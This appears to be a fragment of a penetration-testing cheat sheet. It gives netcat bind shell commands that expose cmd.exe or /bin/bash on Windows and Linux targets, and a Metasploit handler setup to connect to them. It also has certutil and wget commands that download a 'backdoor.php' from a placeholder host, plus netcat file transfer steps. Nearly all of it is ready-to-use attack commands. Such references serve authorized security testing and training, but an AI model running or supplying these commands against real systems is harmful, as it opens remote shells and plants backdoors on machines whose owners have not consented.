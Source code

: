 <pre class="language-sh"><code class="lang-sh"># Windows (target)
nc -nvlp &#x3C;target_port> -e cmd.exe 
nc.exe -nvlp &#x3C;target_port> -e cmd.exe

# Linux (target)
nc -nvlp &#x3C;target_port> -e /bin/bash

<strong># Linux (attacker)
</strong>nc -nv &#x3C;target_ip> &#x3C;target_port>

<strong># Windows (attacker)
</strong>nc.exe -nv &#x3C;target_ip> &#x3C;target_port>


# Linux Metasploit (attacker)
use multi/handler
set payload generic/shell_bind_tcp # Try also linux/x64/shell/bind_tcp
set rhost &#x3C;target_ip>
set lport &#x3C;target_port>
run
</code></pre>

## Transfer files

```sh
# HTTP Windows
certutil -urlcache -f http://<host>/backdoor.php backdoor.php
# HTTP Linux
wget http://<host>/backdoor.php

# Netcat [useful when the victim cannot reach you, but you can]
nc -nvlp <target_port> > backdoor.php         # [recepient]
nc -w 3 <ip> <target_port> < backdoor.php    # [sender]

# TIPS
# 1 tip - Progress Indicator in netcat
pv backdoor.php | nc -w 3 <ip> <target_port> # [sender] (install pv)
# 2 tip - Check md5
md5sum backdoor.php

# Note: netcat "-n" option means no DNS (only IP)
```

## \[Fully] interactive shell

**Interactive shell**

```sh
/bin/bash -i # Linux
```
